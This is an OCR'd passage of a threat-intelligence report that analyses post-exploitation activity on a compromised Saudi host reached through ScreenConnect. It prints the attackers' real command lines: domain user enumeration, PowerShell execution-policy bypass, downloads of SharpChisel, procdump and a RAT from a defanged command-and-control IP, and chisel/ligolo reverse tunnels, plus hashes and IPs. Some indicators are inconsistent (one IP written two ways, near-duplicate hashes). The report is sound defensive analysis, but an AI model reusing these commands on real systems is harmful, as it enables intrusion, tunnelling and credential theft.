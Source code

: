 
Post-Exploitation Analysis
During our research, we discovered a compromised host in Saudi Arabia that used ScreenConnect remote administration software. They were targeted via a malicious .ZIP file (SHA256 hash: b2f429efdb1801892ec8a2bcdd00a44d6ee31df04721482a1927fc6df554cdcf) that contained a ScreenConnect executable (SHA256 hash: 2f429efdb1801892ec8a2bcdd00a44d6ee31df04721482a1927fc6df554cdcf)
As noted above, the ScreenConnect executable connects to the Internet-ID server, which is located at instance-sy9at2-relay.screenconnect.com and resolves to 51.68.244.39.
The same domain was mentioned in the previous research. We then observed the threat actors interact with the compromised host using the ScreenConnect software, executing the following commands.
cmd.exe net user /domain
The command above allows the attacker to get all the users from the domain controller.
The next command executed is the following:
powershell.exe -exec bypass -w 1 -file a.ps1
This is a command to execute a PowerShell script of some kind. However, we did not have access to the a.ps1 file. We are not sure what functionality is provided here.
The next command issued is the following:
powershell.exe iwr -uri http://87.236.212[.]184/SharpChisel.exe -outfile c:\programdata\SharpChisel.exe -usebasicparsing
The command is connected to 187.236.212[.]184 and downloads a file called SharpChisel.exe (SHA256: 61f83466b512eb12fc82441259a5205f076254546a7726a2e3e983011898e4e2) and saves the file to the C:\programdata directory. The name SharpChisel may be related to the purpose of this file, which is a C# wrapper for a tunneling tool called chisel. The above IP address is geolocated to a server in Iran.
The following command then configures SharpChisel:
C:\programdata\SharpChisel.exe client 87.236.212[.]184:8080 r:8888:127.0.0.1:9999
This directs all traffic to the localhost at port 9999 to the same remote server.
Another instance of SharpChisel with different settings is executed, this time using PowerShell using the following command line:
powershell.exe C:\programdata\SharpChisel.exe client 87.236.212[.]184:443 R:8888:127.0.0.1:9999
This time, traffic will be forwarded to the server over port 443.
A third SharpChisel instance that connects to a different C&C server at 23.95.215.100:8080 is started via the following command:
C:\programdata\SharpChisel.exe client 23.95.215[.]100:8080 r:8888:127.0.0.1:9999
It is then configured with the following command line PowerShell command:
powershell.exe C:\programdata\SharpChisel.exe client 23.95.215[.]100:8080 R:8888:127.0.0.1:9999
We believe that the threat actor was unable to configure SharpChisel to work correctly. The use of the following command provides additional evidence to support our assumption:
powershell.exe iwr -uri hxxp://87.236.212[.]184/procdump64.exe -outfile c:\programdata\procdump64.exe -usebasicparsing
The command connects to the C&C server, downloads procdump64.exe, and saves the file in the C:\programdata directory. That supports our assumption that SharpChisel could not be configured correctly, and the attacker instead used PowerShell to download and run the legitimate procdump64.exe utility.






 Figure 7. LIGOLO execution example





This was done using two separate commands:
C:\programdate\1.exe -relayserver 87.236.212[.]184:5555
 C:\users\public\new.exe -relayserver 87.236.212[.]184:5555
We then see the threat actor again attempting to use SharpChisel several times using the following command:
C:\programdata\SharpChisel.exe  client 87.236.212[.]184:8080 r:8888:127.0.0.1:9999
 powershell.exe C:\programdata\SharpChisel.exe client 87.236.212[.]184:8080 R:8888:127.0.0.1:9999
We conclude that a tunneling connection to the C&C server could not be established, even after attempts to do so with two different tools.
Following the unsuccessful attempt to configure a tunnel connection to their C&C server, the threat actors downloaded a remote access tool (RAT) and attempted to configure it. The following PowerShell command was used for this:
powershell.exe iwr -uri hxxp://87.236.212[.]184/out1 -outfile c:\users\public\out1.exe -usebasicparsing